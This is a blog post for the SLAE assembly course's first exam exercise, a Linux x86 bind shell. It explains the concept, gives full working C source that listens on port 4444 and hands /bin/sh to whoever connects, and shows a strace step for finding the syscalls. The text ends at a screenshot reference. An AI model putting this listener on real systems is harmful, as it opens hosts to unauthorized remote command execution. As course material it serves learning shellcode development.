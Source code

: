 ```yaml
---
layout: post
title: SLAE Exercise 1 - Bind Shell
subtitle: Linux x86 Bind Shell
tags: [SLAE]
---
```


**Overview**

The first task of the SLAE exam requires a bind shell to be written. The requirements for this were as follows:
	- Binds to a port.
	- Executes a shell on an incoming connection.
	- The port number should be easily configurable within the shell code. 

**Requirements**

To start, it is best to find out what is needed to create a bind shell in a higher level language, and how each of all of these components work. First of all, what is a bind shell?  A bind shell is a shell that binds to a specific port on the target that listens to incoming connections. When a device connects to this port, a shell will be presented. So what is needed from a bind shell? It needs to:

- Be waiting for an incoming connection - bind to a port. 
- Provide the incoming connection with a shell by utilising execve (syscall 11). 

The following C taken from [here] (https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/), was utilised to determine what was needed to create a bind shell:

~~~
#include <stdio.h> 
#include <sys/types.h>  
#include <sys/socket.h> 
#include <netinet/in.h> 
int host_sockid;    // socket file descriptor 
int client_sockid;  // client file descriptor 
struct sockaddr_in hostaddr;            // server aka listen address
int main() 
{ 
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 
    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order
    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 
    // Listen for incoming connections 
    listen(host_sockid, 2); 
    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 
    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 
    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid); 
    return 0; 
}
~~~

Using Strace along with the complied C bind shell, it can be seen exactly what Syscalls are required to write a bind shell. The command to run the program with strace was as follows:
~~~
	Sudo strace ./bind
~~~
The open port was connected to so that the entirety of the program running could be observed with strace. The following was observed:

![Local Image](./img/SLAE_Bind/C_Bind_Strace.png)
